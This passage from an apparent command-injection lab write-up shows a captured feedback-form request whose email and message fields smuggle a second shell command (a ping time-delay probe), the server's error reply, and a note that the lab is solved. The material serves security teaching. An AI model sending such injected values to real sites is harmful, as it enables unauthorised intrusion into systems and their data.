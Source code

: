 	X-PwnFox-Color: magenta
	Priority: u=0
	
	csrf=tOw3LbawuI4HrrZRySXz0mv0uLBlRa4X&name=tester&email=tester%40test.com%26ping%20-c%2010%20127.0.0.1%20%26&subject=Testing&message=Test+message%26ping%20-c%2010%20127.0.0.1%20%26
	```
	
	```
	HTTP/1.1 500 Internal Server Error
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 16
	
	"Could not save"
	```
	
	![](../../../../assets/screenshots/command-injection/Pasted%20image%2020250801080537.png)
	
	And the lab is done. 
	
	![](../../../../assets/screenshots/command-injection/Pasted%20image%2020250801080637.png)
	